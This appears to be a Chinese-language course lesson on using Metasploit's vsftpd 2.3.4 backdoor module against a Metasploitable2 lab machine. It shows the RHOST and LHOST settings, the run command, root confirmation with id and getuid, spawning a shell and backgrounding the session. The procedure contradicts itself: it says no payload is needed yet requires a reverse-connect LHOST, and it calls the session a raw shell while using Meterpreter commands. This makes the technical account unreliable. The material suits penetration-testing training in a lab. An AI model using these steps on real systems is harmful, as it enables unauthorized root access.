








道德黑客与渗透测试：第43节：利用 vsftpd 2.3.4 获取你的第一个 Shell 🖥️


 在本节课中，我们将继续上一节的内容，利用 Kali Linux 中的 Metasploit 框架，针对 vsftpd 2.3.4 服务的后门漏洞，成功获取目标系统的第一个确认 Shell。我们将使用之前已经加载好的 VSFTPD 漏洞利用模块，设置目标主机地址，运行攻击，并在拿到权限后验证身份，最后学习如何安全退出并将会话放入后台，为下一节管理多个会话做准备。


 ## 设置目标主机地址 🎯


 我们仍然位于上一节中使用的 VSFTPD 漏洞利用模块内部。接下来的第一步，是告诉 Metasploit 我们要攻击哪一台机器。此前我们已经通过 Nmap 扫描确认了目标服务和版本，现在需要把这个目标 IP 地址填入模块的 RHOST 字段中，这样攻击才会指向正确的目标。

 以下是设置目标地址的操作：

 ```bash
 set RHOST 192.168.56.101
 ```

 输入完成后按下回车键。为了确认设置已经生效，我们可以查看当前模块的所有选项：

 ```bash
 show options
 ```

 执行后，你会看到 RHOST 字段不再为空，而是显示着目标机器的 IP 地址 192.168.56.101。这意味着模块已经知道应该把攻击指向哪里。


 ## 理解为什么此漏洞不需要单独配置载荷 📦


 这个特定的 vsftpd 2.3.4 漏洞利用模块，在触发后门时会直接提供一个命令行 Shell，因此不需要像其他漏洞利用那样单独选择和配置 payload。载荷的作用是决定攻击成功后在目标系统上执行什么代码，而这里后门本身已经完成了这件事，攻击者只需要触发漏洞即可直接获得控制权。

 从核心原理来看，可以把这个过程概括为：

 **漏洞触发 → 后门自动开放 → 直接获得 Shell**

 这就是为什么 vsftpd 2.3.4 这个漏洞在安全领域如此著名且危险。在你未来的职业生涯中，遇到的许多其他漏洞利用都需要你手动选择合适的 payload，并进行额外配置。但这个漏洞利用模块之所以显得特别简单，正是因为它的后门机制直接就把 Shell 交到了我们手里，省去了繁琐的载荷设置步骤。


 ## 运行漏洞利用模块 🚀


 接下来，我们尝试运行这个模块，看看能否真的拿到目标系统的 Shell。在 Metasploit 中，启动攻击有两种常见写法，效果完全相同，你可以根据个人习惯选择其中一种。

 以下是可用的运行命令：

 - `run`
 - `exploit`

 输入任意一个并回车后，Metasploit 会开始连接目标的 FTP 服务，并尝试触发 vsftpd 2.3.4 的后门条件。如果一切顺利，屏幕上会出现一个命令提示符，这代表我们已经成功进入了目标系统，获得了一个可交互的命令行界面。


 ## 设置本地监听地址 🌐


 首次运行后，Metasploit 报错了，提示我们需要设置 LHOST。LHOST 代表本地主机地址，也就是我们攻击机器（Kali Linux）自身的 IP 地址。目标系统在触发后门后，需要反向连接回我们的机器，所以必须告诉它连回哪里，否则会话无法建立。

 以下是获取本机 IP 的方法：

 打开一个新的终端窗口，查看 Kali Linux 的网络配置。在本演示环境中，Kali 的 IP 地址是：

 ```text
 192.168.56.102
 ```

 获取本机 IP 之后，回到 Metasploit 控制台，设置 LHOST：

 ```bash
 set LHOST 192.168.56.102
 ```

 核心概念可以用公式表示：

 **LHOST = Kali Linux 本机 IP 地址**

 设置完成后，再次运行漏洞利用模块：

 ```bash
 run
 ```

 或者使用 `exploit`，两者结果一样。这次攻击成功了，Metasploit 连接到了目标的 FTP 服务并触发了后门，屏幕上出现了命令提示符，说明我们已经与目标建立了会话。


 ## 确认已获取命令行会话 ✅


 此时，我们实际上已经进入了运行在 metasploitable2 目标系统上的原始 Shell 会话，而不是仍然停留在 Kali Linux 本机。为了不凭空相信，我们需要用几个简单的命令来证明这一点，确认自己确实位于目标机器上。

 以下是验证当前所在系统的常用命令：

 - `whoami`：查看当前用户身份
 - `getuid`：在 Meterpreter 会话中等价于 whoami，用于获取用户 ID
 - `id`：显示详细的用户和组 ID 信息

 在 Meterpreter 会话中，`whoami` 可能无法直接使用，因此我们改用 `getuid`。执行 `getuid` 后，系统返回的结果与 `whoami` 的作用一致，证明我们确实位于目标机器上。

 如果再执行 `id` 命令，你会看到输出中包含 `uid=0`。在任何 Linux 系统中，用户 ID 为 0 都特指根用户，也就是拥有最高权限的 root 账户。核心概念可以用公式表示：

 **Shell 权限 = uid=0（root 账户）**

 这意味着我们不仅拿到了 Shell，而且拿到了目标系统的最高管理权限，可以在目标上执行任意操作。


 ## 进入原生 Linux Shell 🐚


 除了在 Meterpreter 中运行命令，我们还可以进一步进入目标系统的原生 Linux 终端，从而直接使用更多熟悉的 Linux 命令，而不需要受限于 Meterpreter 提供的命令集。

 以下是进入原生 Shell 的命令：

 ```bash
 shell
 ```

 输入 `shell` 并回车后，Meterpreter 会话会切换到目标系统的原生 Shell 环境。在这个环境下，你可以执行 `hostname` 命令，确认我们当前确实身处 metasploitable2 机器，而不是自己的 Kali 攻击机，从而彻底消除疑虑。


 ## 原生 Shell 的特点与注意事项 ⚠️


 这里需要介绍一个实用的知识点。我们现在所在的这个 Shell，属于所谓的原始 Shell（raw shell）或非格式化 Shell（unformatted shell）。与日常使用的普通终端相比，它缺少一些便利功能，这对初学者来说可能感觉不太习惯，但完全属于正常现象。

 以下是原生 Shell 的典型特点：

 - 没有命令历史记录
 - 没有 Tab 键自动补全
 - 界面比较简陋，功能有限

 这并不代表出了什么问题或攻击失败，很多通过漏洞利用获得的 Shell 都具有这些特征。只要能够执行命令并获取输出，就说明会话依然是有效的。


 ## 安全退出并后台会话 🔄


 演示结束后，我们需要一层一层地退出，回到 Metasploit 主控台，以便为下一节设置第二个漏洞利用示例，并展示会话管理。因为我们目前处于嵌套状态：原生 Shell 运行在 Meterpreter 会话之中，而 Meterpreter 会话又运行在 Metasploit 主控台之中，需要逐层返回。

 以下是逐层退出的步骤：

 1. 在原生 Shell 中输入 `exit`，返回 Meterpreter 提示符。
 2. 在 Meterpreter 中输入 `background`，将当前会话放入后台。
 3. 此时回到 `msf6` 提示符，第一个会话仍然存活，只是在后台静默运行。

 通过 `background` 命令，Metasploit 会保持会话活跃，而不是完全关闭它。这样我们在下一节就可以利用这个存活的会话，继续演示如何同时管理多个活跃的攻击会话，这在真实的渗透测试项目中是非常常见的需求。


 ## 总结 📝


 本节课中，我们一起学习了如何使用 Kali Linux 和 Metasploit 利用 vsftpd 2.3.4 漏洞获取第一个 Shell。我们设置了目标主机地址 RHOST，了解了该漏洞不需要单独配置 payload 的原因，运行了漏洞利用模块，并在报错后设置了本地监听地址 LHOST。拿到权限之后，我们使用 `getuid` 和 `id` 命令确认自己已经获得 root 权限，又进入原生 Linux Shell 验证了目标主机名，最后学习了如何安全退出并将会话放入后台。

 这个过程完整展示了本课程的方法论：先通过 Nmap 进行版本探测，再通过漏洞扫描确认风险，最后根据具体信息精准选择对应的漏洞利用模块。下一节课，我们将利用第二个不同的漏洞，并展示如何在并行管理多个活跃会话。


 















